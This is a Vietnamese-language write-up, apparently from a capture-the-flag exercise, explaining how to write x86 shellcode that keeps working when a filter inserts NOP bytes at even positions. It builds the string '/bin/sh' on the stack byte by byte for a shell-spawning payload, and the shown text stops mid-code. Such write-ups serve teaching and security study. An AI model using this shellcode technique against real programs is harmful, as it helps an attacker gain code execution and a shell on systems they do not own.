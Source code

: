 ```asm
```
### Phân tích:
  - Do cách thức chèn NOP vào shellcode có cơ chế ví dụ như sau:
```
shell code gốc:          \x31\xC0\x31\xDB\.... 
sau khi lọc qua hàm:     \x31\xC0\0x90\0x90\x31\xDB\0x90\0x90\....
```

    -> Các vị trí chẵn của shellcode bị chèn NOP
  - Như vậy, khi nhìn lại shellcode lấy shell gốc ở trên thì hầu hết các lệnh đều dài đúng 2 byte, nên nó sẽ thực hiện đúng 2 byte rồi chèn NOP sẽ ko ảnh hưởng. Nhưng chỉ trừ cách push chuỗi "/bin/sh" lên stack nó chiếm 10 byte. Như vậy NOP sẽ phá hết shellcode của ta

-> Vậy ý tưởng là: ta sẽ đẩy từng kí tự của chuỗi "/bin/sh" lên stack. Các câu lệnh đẩy mỗi kí tự lên chỉ mất số chẵn lần byte để thực hiện (2, 4, ...)

### Thiết lập shellocde
- Đầu tiên ta sẽ thiết lập 1 stack rỗng 8 byte null và thiết lập edi trỏ tới chuỗi trên stack
```
xor eax, eax
push eax
push eax
mov edi, esp
```
- Sau đó ta sẽ xây dựng string bằng cách đẩy từng kí tự. Mỗi kí tự sẽ được push như sau:
  - Gán kí tự vào thanh ghi al
  - ghi kí tự vào ô nhớ hiện tại bằng lệnh add
  - trỏ kí tự đó sang byte kế tiếp để bảo các lần push kí tự sau không bị chèn vào ô của kí tự trước
  - Chèn thêm 1 byte NOP để đảm bảo cả đoạn chiếm số chẵn lần byte
  - Làm tương tự với toàn bộ kí tự trong chuỗi "/bin/sh"
- Ta có code:
```
   mov al, 0x2f
   add [edi], al                                              
   inc edi                          
   nop                              

   mov al, 0x62                     
   add [edi], al
   inc edi
   nop

   mov al, 0x69                    
   add [edi], al
   inc edi
   nop

   mov al, 0x6e                     
   add [edi], al
   inc edi
   nop

   mov al, 0x2f                     
   add [edi], al
   inc edi
   nop

   mov al, 0x73                     
   add [edi], al
   inc edi
   nop

   mov al, 0x68                     
   add [edi], al
```